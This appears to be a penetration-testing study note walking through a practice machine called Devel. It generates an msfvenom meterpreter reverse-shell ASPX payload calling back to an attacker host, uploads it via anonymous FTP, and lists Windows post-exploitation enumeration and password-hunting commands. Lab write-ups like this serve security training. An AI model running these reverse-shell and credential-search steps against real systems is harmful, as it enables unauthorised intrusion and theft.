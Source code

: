 ## Gaining a Foothold

### Devel (Using MSF conditions)  

**Initial Enum / RevShell Payload:**  
Nmap scan > iis server and ftp anonymous login identified > login ftp server and `PUT` test file sucessful > use msfvenom to generate a reverse tcp shell in aspx (since target is hosting iis)

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.05 LPORT=4444 -f aspx -o reverse.aspx`  

![image](https://github.com/user-attachments/assets/3db1aa08-39b4-45d2-afbe-01710f16b7cd)

**Listener with msfconsole multi handler:**  
msfconsole > use exploit/multi/handler > options > set payload windows/meterpreter/reverse_tcp > set LHOST ATTACKERIP > set LPORT 4444 > run

**Upload payload to iis:**  
ftp anonyomous login > `PUT reverse.aspx` > load http://victim/reverse.aspx (to trigger meterpreter reverse shell connection)  

---

#### System Enumeration  
now that we are a low level user, we repeat the cycle of information gathering, scanning enumeration and further exploitation.  

meterpreter: shell  
`systeminfo`  
`hostname`  
patching checks (windows management instrumentation command line + quick fix engineering) : `wmic qfe` or `wmic qfe get Caption,Description,HotFixID,InstalledOn` for a cleaner view  
driver enumeration: `wmic logicaldisk get caption,description,providername`

#### User Enumeration  
check hostname and user logged in`whoami`  
check current priviliges `whoami /priv`  
groups you belong to `whoami /groups`
users on the host `net user`  
enum found users `net user exampleuser`  
list all local group memberships `net localgroup`  
list all users in the administrator group `net localgroup administrators`  

#### Network Enumeration  
`ipconfig`  
`ipconfig /all`  
`arp -a`  
(check where else the host is connecting to) `route print`  
(where is the host connecting to and what ports are open, if new connections / ports are found only internally and not frem an external scan it could provide ideas such as the potential port forward,) `netstat -ano`  

#### Password Hunting  
(finds string of 'password' in the listed file types WITHIN the current directory) `findstr /si password *.txt *.ini *.config *.xml`  

---

### Automated Tools
